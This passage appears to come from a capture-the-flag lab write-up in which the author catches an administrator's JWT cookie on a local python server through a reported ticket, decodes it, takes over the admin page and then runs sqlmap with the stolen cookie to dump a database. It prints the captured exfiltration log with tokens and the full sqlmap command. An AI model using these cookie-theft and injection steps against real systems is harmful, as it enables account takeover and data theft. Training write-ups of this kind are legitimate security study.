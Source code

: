 We need to set up the python server:

```
python3 -m http.server
```

If we send the request, it gives us our own cookie, this does not helps us with anything, but remember the `report listing to admin stuff`, if we report the ticket with the cookie stealer, we can see this in our python server

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.6.34.159 - - [31/Mar/2025 21:20:35] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjYsInVzZXJuYW1lIjoidGVzdDEiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTc0MzQ1NTk4M30.58_BVPxAkFoIjQDdGV-SGvFtAe3Yvi98NACqx5Qg-Jw HTTP/1.1" 200 -
10.10.239.175 - - [31/Mar/2025 21:20:40] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q HTTP/1.1" 200 -
```


The last one is the admin cookie, we know this by decoding the `JWT Token`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331162253.png)

Let's use the cookie and visualize the admin page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331162423.png)

We got our first flag:

```
THM{c37a63895910e478f28669b048c348d5}
```

We notice that we can list users, if we go to any user, we can see this:

 
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331163239.png)

The url seems odd, we can test stuff like `LFI` or `SQLI` payload:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331163332.png)

We got it, this page may be vulnerable to SQLI, let's use sqlmap:

```bash
sqlmap -u "http://10.10.239.175/admin?user=2" --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q' --technique=U --delay=2 -dump
```


We get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331164347.png)

I tried cracking these hashes but no luck, we can also find this other table:
